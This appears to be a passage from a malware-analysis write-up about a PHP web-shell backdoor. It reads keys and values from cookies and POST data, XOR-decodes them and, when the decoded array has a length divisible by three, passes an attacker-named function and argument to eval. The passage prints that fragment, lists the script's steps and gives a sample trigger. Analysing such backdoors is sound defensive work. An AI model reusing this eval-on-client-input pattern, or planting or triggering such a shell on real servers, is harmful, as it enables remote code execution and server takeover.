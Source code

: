    // is array length divisable by 3\
   \$flag = count(\$payloadArr) % 3;\
   if (!\$flag) {\
   // success\
   /\*\
   \$payload\[1\] : function or method name, likely something like base64\_decode or system\
   \$payload\[2\] : parameter for above function\
   \*/\
   eval(\$payloadArr\[1\](\$payloadArr\[2\]));\
   exit();\
   }\
   \
  }

  ----------------------------------------------------------------------------------------------------------------------------------------------------------------------

To summarise what is going on there, the script parses all parameters
provided in \$\_COOKIE & \$\_POST, looking for a key value pair, that
can be deciphered and on success evaluated.

Script flow:

1.  It iterates over all key:value pairs in \$\_COOKIE & \$\_POST,
    giving any client access to invoke this scripts functionality.
2.  To check if a key:value is a valid "payload", following is applied:

    a.  A repeating XOR cipher key is generated, based on key name and a
        > "unique" id in the script.

    b.  The value is converted to binary.

    c.  XOR is then applied to the binary value, using previously
        > generated key.

    d.  It is then made into an array, expecting each element is
        > separated by "\#".

    e.  If this array contains 3 (6,9..) elements, it's assumed a valid
        > payload.

3.  If a valid payload was found, it is provided to the eval function,
    giving access to running any serverside code supplied!
4.  Script ends execution flow, if 1 valid payload is found, or when all
    key:value pairs have been processed.

We now know that a valid trigger would look something like this:

  ---------------------------------------
  \$\_POST = \[\
  \"payload\" =\> \"0123456789abcdef\"\
  \];

  ---------------------------------------

To get a better look at what a payload would look like, I reversed the
functionality to be able to generate a valid payload.
